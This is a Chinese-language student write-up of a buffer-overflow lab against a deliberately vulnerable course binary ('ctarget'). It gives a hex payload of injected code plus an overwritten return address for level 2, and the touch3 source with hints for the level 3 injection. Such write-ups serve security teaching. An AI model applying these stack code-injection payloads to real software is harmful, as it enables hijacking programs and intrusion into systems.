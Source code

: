 <img src="http://shixiaozhong.oss-cn-hangzhou.aliyuncs.com/img/image-20221022223812587.png" alt="image-20221022223812587" style="zoom:50%;" />

这是函数的栈帧的分配图。所以可以构建输入的16进制文件。

```
48 c7 c7 fa 97 b9 59 68		# 注入代码的字节序列
ec 17 40 00 c3 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 	#rsp地址

```

通过命令`./hex2raw < ans2.txt | ./ctarget -q`执行，结果为pass就是正确。

![image-20221021142122317](http://shixiaozhong.oss-cn-hangzhou.aliyuncs.com/img/image-20221021142122317.png)

##### level3

level3也是一个代码注入的任务，但是参数是一个字符指针。给出hexmath和touch3的源代码，和touch2类似，让cookie的地址作为touch3的参数，我们的任务就是让getbuf函数返回后去执行touch3，并且参数为cookie字符串的地址。

```c
/*Compare string to hex represention of unsigned value  */
int hexmath(unsigned val, char *sval)
{
    char cbuf[110];						// 注意开辟的空间大小
    /*Make position of check string unpredictable  */
    char* s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char* sval)
{
    vlevel = 3;			/*Part of validation protocol  */
    if(hexmath(cookie, sval))
    {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    }
    else
    {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```

**一些建议**

* 您需要在利用字符串中包含cookie的字符串表示，由八个16进制的数字表示，并且不包含0x。
* 注意在c语言表示的字符串的末尾加一个''/0'。
* 你的注入代码需要将%rdi的值设为cookie字符串的地址。
* 当hexmath和touch3函数被调用时，他们的数据将会被压入栈中，覆盖掉getbuf的原有栈帧，所以你需要注意应该在哪里放置你的字符串。
